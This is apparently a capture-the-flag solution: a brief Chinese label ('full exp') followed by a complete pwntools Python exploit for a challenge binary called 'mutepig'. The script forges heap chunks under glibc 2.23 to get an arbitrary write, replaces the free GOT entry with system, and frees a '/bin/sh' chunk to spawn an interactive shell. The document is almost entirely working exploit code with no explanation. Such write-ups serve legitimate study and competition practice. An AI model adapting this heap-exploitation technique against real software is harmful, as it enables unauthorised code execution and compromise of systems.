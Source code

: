 完整 exp：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

link=process("./mutepig")
elf=ELF("./mutepig")
libc=ELF('./glibc/2.23-0ubuntu3_amd64/libc.so.6')

# gdb.attach(link,'set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu3_amd64/')
# pause()

def add(sizetype,chunkcontent): #1:0x10 2:0x80 3:0xa00000 13337:0xffffffffffffff70
    link.sendline(b'1')
    link.sendline(str(sizetype))
    link.send(chunkcontent)
    sleep(0.1)

def free(index):
    link.sendline(b'2')
    link.sendline(str(index))
    sleep(0.1)

def edit(index,chunkcontent,bsscontent):
    link.sendline(b'3')
    link.sendline(str(index))
    link.send(chunkcontent)
    link.send(bsscontent)
    sleep(0.1)

add(3,b'a') #0 mmap largechunk
free(0)
add(3,b'b') #1 mmap largechunk
free(1)

add(1,b'c') #2 fastchunk
add(2,b'd') #3 smallchunk
free(2)
fakechunk=p64(0)+p64(0x11)+p64(0)+p64(0xfffffffffffffff1)
edit(2,p64(0x602130)[:7],fakechunk)
free(3)
fakechunk=p64(0x0)+p64(0x11)+p64(0)+p64(0xa00001)
edit(3,p64(0x602130)[:7],fakechunk)

add(3,b'/bin/sh') #4 largechunk
fakechunk=p64(0x0)+p64(0x11)+p64(0)+p64(0xfffffffffffffff1)
edit(3,p64(0x602130)[:7],fakechunk)
add(13337,b'a') #5 "hugechunk"

print(hex(elf.got['free']))
print(hex(elf.symbols['system']))
add(1,p64(elf.got['free'])[:7]) #6
edit(0,p64(elf.symbols['system'])[:7],b'a')
free(2)

link.interactive()
```

